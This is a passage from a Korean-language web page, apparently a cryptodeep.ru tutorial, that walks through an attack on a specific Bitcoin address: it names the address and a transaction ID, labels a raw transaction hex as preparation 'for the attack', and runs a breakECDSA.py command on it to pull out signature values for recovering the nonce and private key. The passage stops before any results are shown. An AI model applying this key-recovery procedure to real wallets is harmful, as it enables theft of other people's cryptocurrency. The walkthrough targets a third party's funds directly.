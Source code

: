 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><strong><a href="https://btc1.trezor.io/tx/e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393" target="_blank" rel="noreferrer noopener">자세한 암호 분석을 통해 e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393</a></strong>&nbsp;에서 동일한 Bitcoin 주소에 대한&nbsp;치명적인 취약점도 발견했습니다.<strong><code>&nbsp;TXID:</code></strong><strong><a href="https://btc1.trezor.io/tx/e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393" target="_blank" rel="noreferrer noopener"></a></strong></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>공격을 위한 RawTX 준비</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1HYDQRwXbvVYpmDn6kGJ6kjyewvtyz1CL5" target="_blank" rel="noreferrer noopener">1HYDQRwXbvVYpmDn6kGJ6kjyewvtyz1CL5</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-19-1024x95.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-851"/></figure>



<pre class="wp-block-code"><code>RawTX = 01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>

